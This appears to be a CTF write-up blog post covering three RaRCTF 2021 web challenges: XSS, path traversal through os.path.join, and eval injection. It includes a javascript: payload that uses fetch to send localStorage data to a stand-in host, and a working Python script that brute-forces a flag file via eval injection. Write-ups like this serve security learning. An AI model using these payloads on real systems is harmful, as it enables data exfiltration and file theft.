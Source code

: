 ```yaml
---
title: "RaRCTF2021: Some simpler web probz"
date: 2021-08-09T13:49:21-07:00
draft: false
comments: false
toc: true
images:
categories:
  - writeups
tags: 
  - writeups
  - xss
  - command-injection
  - web
---
```


## Fancy Button Generator // FBG

A simple xss challenge with the slightest of twists: instead of stealing admin cookies, you're stealing admin's localstorage values. This was possible because the admin, which was a puppetteer chrome browser, was operating in no-sandbox mode. 

Insert as your payload:
```
title: eh
link: javascript:fetch('your.server?fleg='%2B(window.localStorage.getItem("flag")));

```

And report to admin. Careful with the wait times...

NOTE: I first-blooded this challenge before certain measures were implemented. There were some issues with FBG throughout the competition that involved the organizers making amendments and introducing a pow to help with the stability of the infrastructure. I'm not aware of how the solution would have looked with the accompanying pow, unfortunately. 

flag: `rarctf{th0s3_f4ncy_butt0n5_w3r3_t00_cl1ck4bl3_f0r_u5_a4667cb69f}`

## Secure Uploader 

In the provided source, observe this piece of code: 

```py
@app.route('/file/<id>')
def file(id):
    conn = db()
    cur = conn.cursor()
    cur.execute("select path from files where id=?", (id,))
    res = cur.fetchone()
    if res is None:
        return "File not found", 404
    with open(os.path.join("uploads/", res[0]), "r") as f:
        return (os.path.join("uploads/", res[0]))
```

python's `os.path.join` is a unique thing: its purpose is to concat the provided parameters, appending one after the other with a `/` character in between. As an example, `os.path.join('foo','bar')` would produce `foo/bar`. However, specify an absolute filepath as a parameter, and everything before that string will be erased. So, `os.path.join('foo', '/bar')` would produce just `/bar`. We can use this knowledge to provide to the challenge a filename such as `//flag` which will resolve to retrieve the flag kept in the root directory of the docker container hosting the challenge. 

flag: `rarctf{4lw4y5_r34d_th3_d0c5_pr0p3rly!-71ed16}`

## MAAS 1 // Calculator
The first part of "Microservices as a Service" was a challenge that involved improper use of the python function `eval()`. For those unaware, `eval()` takes as a parameter a string representing code. For example, `eval('print("hello")')` would return `hello` in your console. Obviously, not a very _safe_ function to use.

In the provided source, we see some very interesting code in `arithmetic/app.py`:

```python
@app.route('/arithmetic', methods=["POST"])
def arithmetic():
    if request.form.get('add'):
        r = requests.get(f'http://arithmetic:3000/add?n1={request.form.get("n1")}&n2={request.form.get("n2")}')
    elif request.form.get('sub'):
        r = requests.get(f'http://arithmetic:3000/sub?n1={request.form.get("n1")}&n2={request.form.get("n2")}')
    elif request.form.get('div'):
        r = requests.get(f'http://arithmetic:3000/div?n1={request.form.get("n1")}&n2={request.form.get("n2")}')
    elif request.form.get('mul'):
        r = requests.get(f'http://arithmetic:3000/mul?n1={request.form.get("n1")}&n2={request.form.get("n2")}')
    result = r.json()
    print(result)
    res = result.get('result')
    if not res:
        return str(result.get('error'))
    try:
        res_type = type(eval(res))
        if res_type is int or res_type is float:
            return str(res)
        else:
            return "Result is not a number"
    except NameError:
        return "Result is invalid"
```

This would run when you perform any arithmetic action using the calculator in the website. When using the calculator, if you try to do an addition formula like "1+1", the returned result isn't 2, but "11". Why is that?

The program passes your code into `eval()` (in the `try` statement), but the result of that `eval()` isn't returned anywhere. If the eval'd result was an integer, then the _string_ that was passed as a parameter to `eval()` would be returned, hence why "11" is returned as the result of "1+1". However, `eval()` is called nonetheless, and we can use this to our advantage.

First and foremost, if the result of the eval was a number (int or float), then the string is returned. Else, "Result is not a number" or "Result is invalid" is returned. We could use this as a boolean condition with the following string: 

```
eval("1 if (open('../flag.txt','r').read(-1).startswith('rarctf{')) else 'false'")
``` 

We can instead put this as our "arithmetic" equation. Since the POST request made to the endpoint requires 2 params to be operated on, "n1" and "n2", split this statement into 2 arbitrary halves and put 1 half into the "n1" param, and the other into the "n2" param.

What this does is it calls `eval()` once more, but in this 2nd call we have more freedom to stipulate what can be evaluated. The param to the inner `eval()` is just an if statement that returns the integer `1` if `(open('../flag.txt','r').read(-1).startswith('rarctf{'))` returns the boolean value true, or returns the string `'false'` if the statement returns the boolean value false. 

Therefore, if the contents of `flag.txt` start with the prefix "rarctf{", then the `eval()` functions will return 1, and the maas program would return the whole string as a result. If it doesn't start with that prefix, then the `eval()` functions would return the string 'false' and the if statement that checks the `res_type` would not return our string. From here, we can just continue to add characters to the prefix to brute-force the value of the flag that way: if we get back our string, then the character we guessed is in the flag. If we get back either "Result is not a number" or "Result is invalid" (or just if the response text has the keyword "Result"), then the character we guessed is not in the flag.

```py
import requests

url = "https://maas.rars.win/calculator"

alphabet = 'abcdefghijklmnopqrstuvwxyz1234567890_-{}'

prefix = 'rarctf{'

#I just chose 40 arbitrarily. If the flag was longer, I would have increased the range.
for index in range(0, 40):
    for c in alphabet:
        # It uses the python builtin function open to retrieve the contents of /flag.txt, then reads it
        # if the contents of said flag.txt contain the prefix (and we add the current character after the prefix), it returns true
        req = "eval(\"1 if (open('../flag.txt','r').read(-1).startswith('" + prefix + c + "')) else 'false'\""
        # I split the string between the n1 and n2 params arbitrarily. It doesnt matter how you split them.
        data = {"mode": "arithmetic", "n1": req, "add": "+", "n2": ")"}
        resp = requests.post(url, data)
        # If we dont find the word "Result" in the response to our request above, then that means the character we guessed is in the flag!
        if (resp.text.find("Result") == -1) and (resp.status_code != 500):
            # Add the correctly guessed character to the string amd move on to the next char
            prefix += c
            print(prefix)
            continue
```

flag: `rarctf{0v3rk1ll_4s_4_s3rv1c3_3fca0faa}`

[Part 2!](/posts/2021/08/rarctf-2-maas-2-unintended-solutions/) 

**Vie**